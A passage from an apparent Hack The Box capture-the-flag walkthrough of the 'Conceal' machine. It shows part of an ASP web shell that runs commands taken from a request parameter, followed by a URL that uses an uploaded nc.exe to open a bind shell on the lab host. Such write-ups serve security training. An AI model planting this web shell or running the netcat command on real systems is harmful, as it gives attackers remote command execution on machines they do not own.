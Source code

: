 ```html
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write Server.HTMLEncode(thisDir)%>
</pre>
<br>
</body>
</html>
```

While we are at it, we might as well upload `nc.exe` to see if we can spawn a bind shell because I noticed that there's a script that deletes whatever is in `/upload` rather quickly.

<a class="image-popup">
![8c765d2a.png](/assets/images/posts/conceal-htb-walkthrough/8c765d2a.png)
</a>

Remote command execution unlocked! Time to spawn that bind shell.

```
http://10.10.10.116/upload/hello.asp?cmd=c%3A%5Cinetpub%5Cwwwroot%5Cupload%5Cnc.exe+-lnvp+12345+-e+cmd.exe
```
